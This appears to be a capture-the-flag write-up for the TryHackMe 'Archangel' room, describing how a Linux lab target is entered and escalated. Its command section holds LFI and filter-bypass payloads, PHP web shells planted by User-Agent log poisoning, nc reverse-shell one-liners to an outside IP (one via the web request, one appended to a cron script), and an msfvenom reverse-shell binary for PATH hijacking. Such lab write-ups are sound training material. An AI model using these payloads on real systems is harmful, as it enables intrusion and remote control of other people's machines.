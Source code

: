 # 30. Arch angel 🧭
Names | Details
--------|-----
Source | Tryhackme
Level | easy
Os | linux

**Notes :**

#other/richInfo 


## Gaining Access 😉
- directory bruteforce using common.txt
- found a domain on website. help@domail.com : added to etc hosts and found a flag
- bruteforce on mafialive.thm
- lfi can be disclouse source code [[#Important commands 🔥]]1
- poisoned user-agent by changing user-agent value on http request [[#Important commands 🔥]] 2



## Maintaining Access 🥷
- checked crontab `cat /etc/crontab`
- scheduled process in every minute which execute opt/shell [[#Important commands 🔥]] 3
- logged in as archangel
- After running it and checking it out with strings I notice that the cp command is run without the full path annotation. This is exploitable [[#Important commands 🔥]] 4


## Important commands 🔥
1. lfi source code disclouse and filter bypass
	```php
	php://filter/convert.base64-encode/resource=/var/www/html/development_testing/test.php

	//////..///////..////..//////..///////..////..//////..///////..////..//////..///////..////..//////etc/passwd
	```
2. poisoning user-agent
	```php
	<?php system($_GET[‘shell’]); ?>
	<?php echo '<pre>' . shell_exec($_GET['cmd']) . '</pre>';?>
	GET /test.php?view=/var/www/html/development_testing/.././.././../log/apache2/access.log&cmd=rm+%2ftmp%2ff%3bmkfifo+%2ftmp%2ff%3bcat+%2ftmp%2ff%7c%2fbin%2fsh+-i+2%3e%261%7cnc+10.9.229.254+2222+%3e%2ftmp%2ff
	```
	3. crontab
	```
	echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.9.229.254 80 >/tmp/f" >> /opt/helloworld.sh
	```
4. msfvenom
	```
	msfvenom -p linux/x64/shell_reverse_tcp -f elf -o cp LHOST=10.9.229.254 LPORT=8090
	```
## Post Exploitation ✴️
- from domain
- User flag : /home/user
- Root flag : /root/root
## Tips 💡
- if they filtering `../..` this, try this `/.././.././../` : php lfi filter bypass
- lfi to rce


--------------------------------
**By Nibras Muhammed** 🤓🖥️






